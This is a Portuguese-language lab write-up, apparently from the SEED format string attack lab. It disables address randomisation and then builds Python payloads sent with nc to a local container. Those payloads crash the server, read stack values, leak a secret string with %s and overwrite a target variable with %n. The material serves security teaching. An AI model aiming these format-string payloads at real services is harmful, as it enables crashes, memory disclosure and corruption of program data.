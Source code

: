 # Format String Attack

## Setup 

- Primeiramente desativamos as contramedidas existentes que dificultariam o nosso ataque.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

- Usámos o Docker Compose para construir e iniciar os containers.

```bash
$ dcbuild   # Alias para 'docker-compose build'
$ dcup      # Alias para 'docker-compose up'
```

- Num terminal diferente, após obtermos o `ID` do container desejado, acedemos a sua shell.

```bash
$ docksh 49  # Alias para 'docker exec -it <id> /bin/bash'
root@4929549778e2:/fmt#
```

## Task 1

- Mandamos a nossa primeira mensagem benigna para o servidor

```bash
$ echo 'hello' | nc 10.9.0.5 9090
^C
```

- O servidor retornou endereços importantes e termina com uma mensagem `Returned properly` visto que a nossa mensagem foi recebida com sucesso.

- Com a informação de que o servidor aceita apenas até 1500 bytes, atualizamos o ficheiro `build_string.py` para explorar essa vulnerabilidade.

```py
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*25 + "%n" # alteração do número de "%.8x"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

```bash
$ python3 build_string.py
$ cat badfile | nc 10.9.0.5 9090
```

- O servidor desta vez não apresentou a mensagem `Returned properly` o que demonstra que o servidor crashou.

## Task 2

### Task 2.A

- Escolhemos o valor `0xdeadbeef` para meter no início do nosso input, sendo assim fácil de identificá-lo caso o servidor o imprimisse.

- Após algumas tentativas, chegámos à conclusão de que foram necessários 64 especificadores de formato `%x` para acessar a localização da stack onde o valor estava alocado.

```py
number = 0xdeadbeef
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.8x"*64
```

![image](screenshots/LB6_1.png)

### Task 2.B

- Identificamoso endereço da "secret message": `0x080b4008`

- Modificamos o nosso payload de modo a poder ler a mensagem secreta.

```py
number = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.8x"*63 + "%s"
```
- A string formada pela expressão: `s = "%.8x"*63 + "%s"` salta 63 casas da stack e de seguida usa `%s` para interpretar o endereço da mensagem como um pointer para a string.

![image](screenshots/LB6_2.png)

## Task 3

### Task 3.A

- Temos a informação do endereço da "target variable": `0x080e5068`

- O seu conteúdo é `0x11223344` e temos como objetivo mudar para outro valor. A tática é então muito semelhante à anterior, com a diferença de que desta vez escrevemos no endereço.

```py
number = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.8x"*63 + "%n"
```

![image](screenshots/LB6_3.png)

### Task 3.B

- Para mudarmos o valor do endereço `target` para `0x5000` é necessário um maior controle de caracteres impressos antes do especificador `%n`.

- Convertendo `0x5000` para decimal obtemos o valor `20480`. Isto indica que é necessário imprimirmos essa quantidade de caracteres antes de usarmos `%n`.

```py
s = "%19976x" + "%.8x" * 62 + "%n"
```

![image](screenshots/LB6_4.png)


